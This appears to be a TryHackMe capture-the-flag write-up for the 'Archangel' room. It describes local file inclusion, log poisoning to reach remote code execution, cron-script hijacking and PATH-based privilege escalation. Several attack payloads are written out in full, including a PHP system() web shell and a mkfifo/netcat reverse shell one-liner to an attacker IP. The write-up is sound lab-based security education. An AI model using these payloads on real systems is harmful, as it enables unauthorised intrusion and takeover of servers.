 ```yaml
---
layout: post
title: Archangel - TryHackMe
date: 2024-10-14 00:04:00 +100
categories: [TryHackMe Writeups]
tags: [linux, LFI, log poisoning]
image:
    path: "/assets/archangel/archangel.jpeg"
---
```


### Introduction

The Archangel room is a Boot2Root challenge that focuses on web exploitation, privilege escalation, and local file inclusion (LFI) vulnerabilities. The goal is to start from basic enumeration, exploit vulnerabilities on the web server, and eventually escalate privileges to gain root access.

This writeup will walk through each step, from scanning and discovering weaknesses to using those vulnerabilities to get control of the system. If you're interested in learning about web-based attacks and privilege escalation, this room offers a great hands-on experience.

### Initial Enumeration

Starting out with the Initial Enumeration.

#### Port Scanning

We start by scanning the target machinesing the command `nmap -A <target-IP>` to find open ports and ervices. This will help us understand what services are running.

![nmap scan](/assets/archangel/nmap.png)
We can see that we have an ssh port open on port 22 and an http port open on port 80

#### Web Enumeration

Since http port 80 is open, we would enumerate the web server using `gobuster` to find any hidden directories.
After using `gobuster`, I didn't find any interesting directory, but if we look back at the first question in **Task 2**, it said we should find a different hostname. We can see an email address plastered on the front page of the web server.
![email](/assets/archangel/email.png)
Lets try giving the IP address the hostname **mafialive.thm**. We can do this by navigating to the `/etc/hosts` file
![etc/hosts](/assets/archangel/etc.png)

After navigating to the site, we can see that it is correct and we got our first flag
![flag1](/assets/archangel/flag1.png)

Since the third question in **Task 2** asked us to look for a page under development, I ran the command `gobuster dir -u http://mafialive.thm -w /usr/share/dirb/wordlists/common.txt` and got the following result
![robots](/assets/archangel/robots.png)

Seeing that there is a _robots.txt_ file, i navigated there and got the page

![test](../assets/archangel/test.png)

### Exploitation

#### Local File Inclusion

I navigated to the `test.php` directory and we are met with this

![lfi page](<../assets/archangel/lfi page.png>)
With this we can see that the site might be vulnerable to local file inclusion. Looking back at the hint we were giving to find flag 2, we were told that the **_Best way to exploit lfi is to look at the code_**.

I then used the `php://filter` wrapper which can be used to read php files as plain text instead of executing them. just add this `php://filter/convert.base64-encode/resource`. I was met with the following base64 encoding

![basee64e](../assets/archangel/base64en.png)

Then after decoding it, i was met with this

![base64d](../assets/archangel/base64d.png)

Since that worked, i tried using the same method on the `test.php` file and got this base64 encoded text

![testen](../assets/archangel/testen.png)

After decoding it, i got the second flag

![testde](../assets/archangel/testde.png)

#### Log Poisoning

Seeing as the server is vulnerable to lfi, i also tried tampering the URL to see if i can perform a directory traversal. It was successful and I was able to access the `/etc/passwd` file.

![etcpass](../assets/archangel/etcpass.png)

Since the last question in task 2 ask us to _Get a shell and find the user flag_ and the hint given was **Poison!!!**. So i tried using that same method to check if i can access the `access.log` file and it worked

![accpage](../assets/archangel/accpage.png)

We are now a step closer to getting our result. Lets test out the log poisoning by injecting a whoami code into the web server using the `curl` command

![whoami](../assets/archangel/whoami.png)

_NOTE: The phpexec file is not an existing file, it is a random file i inputed and the reson i did that is to trigger an entry in the web server's log files, which is essential for log poisoning. When you send a request to a non-existent page, the web server typically logs the request in its access or error logs. In this case, by sending the curl request with a PHP payload in the User-Agent header (or any other header), we are trying to inject the PHP code `(<?php system('whoami'); ?>)` into the log file. The log file would then contain this PHP code_

Lets check the result by using the `curl` command to print out the content of the `access.log` file

![prwhoami](../assets/archangel/prwhoami.png)

We can see that it worked and we are met with the result of the executed `whoami` command. With this, we can see that RCE(Remote Code Execution) is possible. So now, i am going to send an inalid request to the server using netcat. we are requesting the page `/<?php phpinfo(); ?>`

![invalid req](<../assets/archangel/invalid req.png>)

Navigating back to the webpage and accesing the access.log directory, we were able to see the following

![phpinfo](../assets/archangel/phpinfo.png)
It means we were able to execute the code and load the `PHPInfo` file. Uing the method we used above, lets try and get a reverse shell from the server.

We will use this payload to execute system commands
`/<?php system($_GET[‘cmd’]); ?>` and use an encoded url reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f`. I encoded it using the site [urlencoder](https://www.urlencoder.org/)

I then parsed it into the webserver and started a netcat listener to receive the shell

![reversesh](../assets/archangel/reverseshell.png)
![alt text](../assets/archangel/shell.png)

And we were successful in getting the shell

Then after navigating to the `/home` directory and seeing an archangel user we were able to list out the content of the directory and get the user flag

![usertxt](../assets/archangel/usertxt.png)

### Privilege Escalation

I then started checking all other files we had access to but i wasnt able to see anything worthwhile. I then checked the `etc/crontab` file and saw that there is an `helloworld.sh` file that is owned by the archangel user and is running every 1 minute

![crontabfile](../assets/archangel/crontabfile.png)

lets try editing the file and injecting a reverse shell payload to see if we can get a shell to the archangel user

![archreverse](../assets/archangel/archrev.png)

I then started a netcat listener to get the shell and it worked. We now have access to the archangel user

![archrevgot](../assets/archangel/archrevgot.png)

we can now check and get our user2 flag

![user2flag](<../assets/archangel/user2 flag.png>)

#### Root Privilege Escalation

Its now time to escalate our privilege to root. If we check the `/home/archangel/secret` well, we can see that there is a backup file with **setuid** bit set which basically allows the program to run with the permissions of the file's owner, rather than the user executing it.

After trying to view the content of the file i was met with some gibberish but we can see that something stood out

![backupcontent](../assets/archangel/backupcont.png)

so i tried executing the file but got an error

![backuperr](../assets/archangel/backuperr.png)

But since we know that the executable backup file is using `cp` command, we can manipulate bothe the **PATH** variable and the `cp` command.

I created a cp file in the users home directory first, then i added the command `/bin/bash` in the file. Then i made the file executable using the command `chmod +x cp`. I then used the command `export PATH=/home/archangel:$PATH`. We can now execute the backup file again

![rootflag](../assets/archangel/rootflag.png)

As we can see, it was succesful and we were able to get the root flag.

**USEFUL RESOURCE**

- [LFI TO RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/)
- [PRIV ESCALATION WITH PATH](https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de)
